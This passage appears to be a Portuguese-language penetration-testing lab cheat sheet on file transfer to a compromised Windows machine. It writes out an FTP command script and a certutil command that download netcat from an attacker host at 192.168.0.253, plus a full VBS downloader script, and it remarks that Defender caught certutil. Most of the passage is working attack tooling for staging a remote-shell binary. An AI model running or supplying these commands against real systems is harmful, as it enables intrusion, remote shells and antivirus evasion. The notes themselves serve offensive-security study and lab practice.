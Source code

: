     open 192.168.0.253
    user offsec
    lab
    bin
    get nc.exe
    bye
Salvando esses comandos em um arquivo chamado "comandos_ftp.txt", executar :

ftp -n -v -s:comandos_ftp.txt

## HTTP

### VBS

Apartir deste script a gente consegue 

    type wget.vbs
    
    strUrl = WScript.Arguments.Item(0) 
    StrFile = WScript.Arguments.Item(1) 
    Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
    Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
    Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
    Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
    Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
     Err.Clear 
     Set http = Nothing 
     Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
     If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
     If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
     If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
     http.Open "GET", strURL, False 
     http.Send 
     varByteArray = http.ResponseBody 
     Set http = Nothing 
     Set fs = CreateObject("Scripting.FileSystemObject") 
     Set ts = fs.CreateTextFile(StrFile, True) 
     strData = "" 
     strBuffer = "" 
     For lngCounter = 0 to UBound(varByteArray) 
     ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
     Next 
     ts.Close 


### certutil

OBS: Esse cara complicou a vida por conta do AV Defender em tempo real... Foi pego. do powershell funciona normalmente

```
certutil -urlcache -split -f "http://192.168.0.253:8000/nc.cmd" nc.hex
```
    